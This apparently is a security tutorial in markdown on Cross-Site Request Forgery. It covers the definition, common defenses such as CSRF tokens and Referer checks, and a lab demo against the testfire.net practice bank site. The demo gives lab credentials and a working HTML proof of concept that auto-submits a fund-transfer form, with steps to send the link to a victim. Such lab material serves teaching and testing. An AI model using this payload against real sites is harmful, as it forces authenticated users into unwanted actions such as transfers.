


 
<pre> 
[](https://html.com/)<space><space> [](https://www.facebook.com/htunaungkyawMPC)
<pre>


 # Cross-Site Request Forgery (CSRF)

 - an attack that forces an end user `to execute unwanted actions` on a web application in which they’re `currently authenticated`. 

 - With a little help of `social engineering` (such as sending a link via email or chat), 

 - If the victim is a normal user, a successful CSRF attack can force the user to perform state changing requests like `transferring funds`, c`hanging their password`, and so forth. If the victim is an administrative account, CSRF can compromise the entire web application.

 [Reference-OWASP](https://owasp.org/www-community/attacks/csrf)




# Common defenses against CSRF 

[Reference_portswigger.net](https://portswigger.net/web-security/csrf)

 The most common defenses are as follows:

- CSRF tokens - A CSRF token is a unique, secret, and unpredictable value that is generated by the server-side application and shared with the client. When attempting to perform a sensitive action, such as submitting a form, the client must include the correct CSRF token in the request. This makes it very difficult for an attacker to construct a valid request on behalf of the victim.

    
- Referer-based validation - Some applications make use of the HTTP Referer header to attempt to defend against CSRF attacks, normally by verifying that the request originated from the application's own domain. This is generally less effective than CSRF token validation.




# Lab Demo

## Lab Websit

`http://testfire.net/login.jsp`

## Lab Credentials

```
username = jsmith   
password = demo1234

```

## Example CSRF POC Form

```html
<h1>CSRF</h1>
<form id="form1" action="http://testfire.net/bank/doTransfer" method="POST">
    <input name="fromAccount" value="800002" />
    <input name="toAccount" value="4539082039396288" />
    <input name="transferAmount" value="3333" />
</form>
<script type="text/javascript">
document.getElementById('form1').submit();
</script>

```

## Labs Steps

1. Construct `CSRF Form` manaully or using burp suite  `engagement tools (csrf PoC`.

2. Run web server and send the link to victim

3. Exploit